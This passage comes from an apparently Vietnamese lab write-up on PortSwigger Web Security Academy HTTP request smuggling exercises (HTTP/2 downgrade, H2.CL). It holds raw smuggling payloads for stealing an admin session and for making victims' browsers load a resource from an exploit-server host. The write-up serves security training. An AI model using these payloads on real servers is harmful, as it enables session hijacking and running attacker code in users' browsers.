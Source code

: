 >When you smuggle a complete request, the front-end server still thinks it only forwarded a single request. On the other hand, the back-end sees two distinct requests, and will send two responses accordingly:

Dựa vào đó ta có thể lấy session của admin (thông qua việc server trả response không đồng bộ vs request, ta nhận được response của admin).

```http!
POST / HTTP/2
Host: 0a2f000f03b8c657c096813f0093006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Transfer-Encoding: chunked

9
user=test
0

GET / HTTP/1.1
Host: 0a2f000f03b8c657c096813f0093006b.web-security-academy.net
```

>![](https://i.imgur.com/EMqWfNZ.png)


>![](https://i.imgur.com/Y8MbTUT.png)

>![](https://i.imgur.com/xKoZtIB.png)

https://sc.scomurr.com/http-request-smuggling-http-2-downgrade-attack/

<hr>

### Bài 12: H2.CL request smuggling

>![](https://i.imgur.com/c1fgYot.png)


Bài lab bị lỗi http smuggling do quá trình downgrade http2 xuống http1.1 không validate trường `content-length` trong header khiến backend server xử lý sai. Cụ thể, nếu content-length trong request ta chỉ định là 0 thì phần ta chèn thêm bị xử lý như 1 request tiếp theo đó. Nếu phần `chèn thêm` đó là 1 request hợp lệ như payload dưới đây, thì backend sẽ xử lý và trả về response tương ứng. (xếp trong queue)

Khi nạn nhân request trang chủ, sẽ có gửi 1 request tới `/resources` để lấy tài nguyên. Nếu việc trả về bị `desync` thì sẽ vô tình trả về 1 tài nguyên độc hại trong request mà ta đã smuggle. -> server trả về mã thực thi và nó thực hiện trên trình duyệt nạn nhân.


```http!
POST / HTTP/2
Host: 0a730045036e972fc0b30e4300410001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0aa8009103a8979ac00d0db00149006b.exploit-server.net
Content-Length: 5

x=1
```
